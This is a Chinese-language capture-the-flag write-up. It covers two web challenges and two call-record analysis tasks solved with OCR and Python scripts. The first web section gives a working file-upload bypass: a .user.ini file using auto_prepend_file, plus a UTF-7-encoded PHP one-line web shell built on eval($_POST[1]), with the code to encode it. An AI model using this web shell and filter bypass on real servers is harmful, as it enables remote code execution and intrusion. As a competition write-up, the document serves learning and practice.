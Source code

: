## web

### 奶龙牌图片处理器2.0

![image-20250524220650083](./img/image-20250524220650083.png)

上传文件目录存在php文件，上传`.user.ini`绕过

> ` .user.ini`它比`.htaccess`用的更广，不管是`nginx/apache/IIS`，只要是以`fastcgi`运行的php都可以用这个方法，`php>=5.3.0`

```
auto_append_file   ; 指定一个文件，自动包含在要执行的文件前。
auto_prepend_file  ; 指定一个文件，自动包含在要执行的文件后。
```

但是有文件内容检测，需要用`UTF-7`编码绕过（过滤了`<?`,`php`）

首先上传`.user.ini`

```
zend.multibyte=1
zend.script_encoding=utf-7
auto_prepend_file=1.png
```

将一句话木马转成`UTF-7`编码

```php
<?php
echo iconv("UTF-8","UTF-7",'<?= eval($_POST[1]);');
```

上传`1.png`，内容如下：

```php
+ADw?+AD0 eval(+ACQAXw-POST+AFs-1+AF0)+ADs-
```

![image-20250524221517912](./img/image-20250524221517912.png)

### 外国山海经

有个`flag.php`

![image-20250524221632634](./img/image-20250524221632634.png)

查看源代码，发现存在`JS`代码，但是进行了混淆，找个在线网站就行

```php
(function(_0x5bfa63,_0x281ba4){var _0x628a90={.......}
```

http://www.esjson.com/jsGarbleEncrypt.html

```php
There is more to come
rqxvweqty，Just part of it
fshbs.php，Stitch it together
```

拼接起来就是`rqxvweqtyfshbs.php`

![image-20250524222112936](./img/image-20250524222112936.png)

## 大数据

### 001

```php
和嫌疑人170****5678 通话次数最多的对方号码是哪一个？【例：flag{170****5678}】
```

![image-20250524222328856](./img/image-20250524222328856.png)

附件中全部是图片，需要使用`OCR`进行识别

```python
import os
from PIL import Image
import pytesseract

# 指定Tesseract的安装路径（根据您的安装路径调整）
pytesseract.pytesseract.tesseract_cmd = r'D:\Tesseract-OCR\tesseract.exe'

# 设置图像目录
image_directory = './'  # 替换为您的图片目录路径
output_file = 'extracted_data.txt'  # 输出文本文件

# 创建或清空输出文件
with open(output_file, 'w', encoding='utf-8') as f:
    pass

# 遍历目录中的所有图像文件
for filename in os.listdir(image_directory):
    if filename.endswith('.jpg') or filename.endswith('.png') or filename.endswith('.jpeg'):  # 根据需要添加更多格式
        image_path = os.path.join(image_directory, filename)
        
        # 读取图像
        image = Image.open(image_path)
        
        # 使用OCR提取文本
        extracted_text = pytesseract.image_to_string(image, lang='chi_sim')  # 如果提取中文可以指定语言
        
        # 将提取的文本写入文件
        with open(output_file, 'a', encoding='utf-8') as f:
            f.write(f"--- {filename} ---\n")
            f.write(extracted_text)
            f.write("\n\n")

print(f"数据已提取到 {output_file} 中。")
```

提取出来的格式不太对，只需要本机，对方号码，需要将其他字符去除

然后对应一下号码

```python
# 读取提取的数据
data_file = 'extracted_data.txt'  # 替换为您的提取文本文件路径

# 初始化变量
phone_pairs = []
current_image = ""
current_phones = []
target_phone = "170****5678"  # 设定目标电话号码
target_phone_counts = {}

# 读取数据并去掉空行
with open(data_file, 'r', encoding='utf-8') as f:
    lines = f.readlines()

# 遍历每一行
for line in lines:
    line = line.strip()
    if line.startswith('---') and line.endswith('---'):  # 判断是否是分割标志
        if current_phones:  # 如果当前号码列表不为空，则处理配对
            # 进行配对
            for i in range(min(len(current_phones) // 2, 100)):  # 只取前100对
                main_phone = current_phones[i]
                corresponding_phone = current_phones[i + 100] if i + 100 < len(current_phones) else None
                if corresponding_phone:
                    phone_pairs.append(f"{main_phone} 对应 {corresponding_phone}")
                    # 统计目标电话号码对应的号码
                    if main_phone == target_phone:
                        if corresponding_phone in target_phone_counts:
                            target_phone_counts[corresponding_phone] += 1
                        else:
                            target_phone_counts[corresponding_phone] = 1

        current_image = line  # 更新当前图片标志
        current_phones = []  # 清空当前号码列表
        continue
    
    if line:  # 如果不是空行
        current_phones.append(line)  # 添加电话号码到列表中

# 处理最后一组号码（如果有的话）
if current_phones:
    for i in range(min(len(current_phones) // 2, 100)):
        main_phone = current_phones[i]
        corresponding_phone = current_phones[i + 100] if i + 100 < len(current_phones) else None
        if corresponding_phone:
            phone_pairs.append(f"{main_phone} 对应 {corresponding_phone}")
            # 统计目标电话号码对应的号码
            if main_phone == target_phone:
                if corresponding_phone in target_phone_counts:
                    target_phone_counts[corresponding_phone] += 1
                else:
                    target_phone_counts[corresponding_phone] = 1

# 输出配对结果到文件
output_file = 'phone_pairs.txt'  # 输出文件名，可以根据需要修改
with open(output_file, 'w', encoding='utf-8') as f:
    for pair in phone_pairs:
        f.write(pair + '\n')

# 输出目标电话号码对应的号码及其出现次数
count_output_file = 'target_phone_counts.txt'  # 统计结果输出文件名
with open(count_output_file, 'w', encoding='utf-8') as f:
    f.write(f"与 {target_phone} 对应的号码及其出现次数:\n")
    for phone, count in target_phone_counts.items():
        f.write(f"{phone}: {count} 次\n")

print(f"电话号码配对结果已保存到 {output_file} 中。")
print(f"与 {target_phone} 对应的号码及其出现次数已保存到 {count_output_file} 中。")
```

![image-20250524222938213](./img/image-20250524222938213.png)



```
133****0181: 405 次
```

### 002

```
请问和已知的 6 位嫌疑人都有过通话关系的对方号码有哪些？【若有多个号码，手机号码之间用"-"连接，并将号码由小至大列出，例：flag{1705678-1705678-170****5678...}】
```

统计每个嫌疑人的电话号码的对应的号码，生成几个文件

![image-20250524223205232](./img/image-20250524223205232.png)

内容：

![image-20250524223420740](./img/image-20250524223420740.png)

写个脚本，将与 6 位嫌疑人都有过通话关系的对方号码提取出来

```python
import os
import re

# 文件列表，替换为您的6个文件的路径
file_list = [
    '1352345.txt',  # 替换为您的文件名
    '1387383.txt',
    '1539888.txt',
    '1557991.txt',
    '1570947.txt',
    '1705678.txt'
]

# 初始化一个列表用于存储每个文件中的电话号码集合
phone_sets = []

# 正则表达式，用于匹配电话号码
phone_pattern = re.compile(r'(\d{3}\*\*\*\*\d{4})')

# 读取每个文件并提取电话号码
for file_name in file_list:
    if os.path.exists(file_name):
        with open(file_name, 'r', encoding='utf-8') as f:
            phones = set()  # 使用集合去重
            for line in f:
                match = phone_pattern.findall(line)  # 查找匹配的电话号码
                if match:
                    phones.update(match)  # 将找到的号码添加到集合中
            phone_sets.append(phones)
    else:
        print(f"文件 {file_name} 不存在。")

# 找出所有文件中都存在的电话号码
if phone_sets:
    common_phones = set.intersection(*phone_sets)

    # 输出结果到文件
    output_file = 'common_phones.txt'  # 输出文件名
    with open(output_file, 'w', encoding='utf-8') as f:
        if common_phones:
            for phone in common_phones:
                f.write(phone + '\n')
            print(f"在所有文件中都存在的电话号码已保存到 {output_file} 中。")
        else:
            print("没有在所有文件中都存在的电话号码。")
else:
    print("没有有效的文件进行处理。")
```

![image-20250524223703915](./img/image-20250524223703915.png)

```
158****6074
```

